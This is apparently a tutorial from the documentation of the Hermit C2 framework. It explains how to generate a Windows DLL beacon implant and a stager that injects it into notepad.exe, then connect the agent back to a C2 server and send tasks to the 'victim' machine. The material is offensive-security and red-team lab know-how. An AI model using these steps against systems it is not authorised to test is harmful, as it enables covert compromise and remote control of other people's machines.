 # Simple DLL Injection

In this tutorial, we generate a stager that loads our DLL implant into another process on Windows victim machine. Then make the C2 agent to communicate with our C2 server.   

Assume that you've completed [the Simple Implant Beacon tutorial](./simple-implant-beacon.md).  

## 1. Start C2 Server

In the Hermit project root, start the C2 server:

```sh
./hermit
```

## 2. Start HTTPS Listener

Once the C2 server started, also start HTTPS listener by the following command on the C2 server console:

```sh
Hermit > listener start
```

After starting, the listener folder is generated at `$HOME/.hermit/server/listeners/listener-<name>`.

## 3. Generate DLL Implant

We generate an implant DLL with `payload gen` command.

![payload gen](../assets/images/terminal/payload_gen_implant_beacon_win_amd64_dll.png)

In the option wizard, choose the following options at least:

- What to generate? -> `implant/beacon`
- OS/Arch/Format    -> `windows/amd64/dll`

*If we choose the domain for the listener URL such as `https://example.evil:12345` instead of the ip address such as `https://172.12.34.56:12345`, we need to add the domain to the `C:\Windows\System32\drivers\etc\hosts` on the Windows victim machine for connecting back to our C2 server.

After that, we can see the generated payload with the `listener payloads <LISTENER-ID>` command:

![listener payloads](../assets/images/terminal/listener_payloads.png)

This payload is stored under `$HOME/.hermit/server/listeners/listener-<name>/payloads/`. The DLL loader that we will create later will find this DLL file in this directory and load it, so don't move this file.

## 4. Generate DLL Loader (Stager)

Next, we generate a stager that loads our DLL and execute it.  
Run the `payload gen` command again:

![payload gen](../assets/images/terminal/payload_gen_stager_dll_loader_win_amd64_exe.png)

In the option wizard, choose the following options at least:

- What to generate? -> `stager/dll-loader`
- OS/Arch/Format    -> `windows/amd64/exe`
- Listener URL      -> (Same URL as when generating the DLL)
- Technique         -> `dll-injection`
- Process to Inject -> `notepad.exe`

This stager is also generated under `$HOME/.hermit/server/listeners/listener-<name>/payloads/`.  
**We need to transfer this stager to Windows victim machine.**

## 5. Execute Stager

In Windows victime machine, we need to start `notepad.exe` before executing the stager:

```powershell
PS C:\Users\victim\Desktop> notepad
```

That's because we selected `notepad.exe` as the target process in the previous **Generate DLL Loader** section.  
By doing so, our stager can inject the DLL into the `notepad` process.

Finally we can execute the stager as below:

```powershell
# Replace the filename with your own.
PS C:\Users\victim\Desktop> .\stager.exe
```

## 6. Switch to Agent Mode

After few seconds (10~30 seconds by default), we can see that the agent connected to our C2 server with `agents` command:

![agents](../assets/images/terminal/agent_list.png)

To enter the agent mode, run `agents` command on C2 server console:

![agent use](../assets/images/terminal/agent_use.png)

## 7. Send Tasks

In agent mode, we can send tasks and see results. Try `ps` task:

![task send ps](../assets/images/terminal/task_send_ps.png)

This task prints running processes on victim machine.  

Next, run the `loot` command to see the task results. If we cannot the result yet, please repeat executing `loot` command then we should see the results after a while.

When we look at the `ps` task result, we find that our implant is running on the `Notepad.exe` process as below:

![loot ps](../assets/images/terminal/loot_ps.png)

## 8. Stop Implant & Quit Agent Mode

After playing the agent, stop the implant with the `kill` command:

```sh
Hermit > kill
```

Then run `exit` command to quit the agent mode.

